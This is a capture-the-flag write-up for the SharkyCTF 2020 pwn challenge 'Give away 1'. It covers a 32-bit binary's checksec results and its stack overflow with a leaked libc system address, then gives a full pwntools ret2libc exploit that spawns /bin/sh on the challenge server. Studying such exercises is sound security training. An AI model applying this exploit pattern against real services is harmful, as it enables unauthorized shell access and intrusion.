


# SharkyCTF 2020

## Give away 1

>275
>
> Make good use of this gracious give away.
>
> `nc sharkyctf.xyz 20334`
>
> Creator: Hackhim
>
> [`give_away_1`](give_away_1) [`libc-2.27.so`](libc-2.27.so)

Tags: _pwn_ _bof_ _x86_ _rop_


## Summary

Overflow buffer; libc `system` address leak.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No canary; buffer overflow vulnerability.

    
### Decompile with Ghidra

Ghidra decompile will not help you here, you'll have to look at the assembly:



`give_away_1` `main` gives up the address to `system`.  Then calls `vuln`:



`local_24` is `0x24` bytes above the return address, yet `0x32` bytes can be read.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./give_away_1')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = remote('sharkyctf.xyz', 20334)
libc = ELF('libc-2.27.so')

p.recvuntil('Give away: ')
system = eval(p.recvline().strip())
print(hex(system))
libcbase = system - libc.symbols['system']
print('libcbase: ' + hex(libcbase))

payload  = 0x24 * b'A'
payload += p32(system)
payload += p32(0x0)
payload += p32(libcbase + next(libc.search(b"/bin/sh")))

p.sendline(payload)
p.interactive()
```

Computing the base of libc is trivial using the leaked `system` address and the provided libc .

Next, find a `/bin/sh` string to pass to `system` to finish off the payload.

Output:

```
# ./exploit.py
[+] Opening connection to sharkyctf.xyz on port 20334: Done
[*] '/pwd/datajerk/sharkyctf2020/giveaway1/libc-2.27.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
0xf7db6200
libcbase: 0xf7d79000
[*] Switching to interactive mode
$ cat flag.txt
shkCTF{I_h0PE_U_Fl4g3d_tHat_1n_L3ss_Th4n_4_m1nuT3s}
```
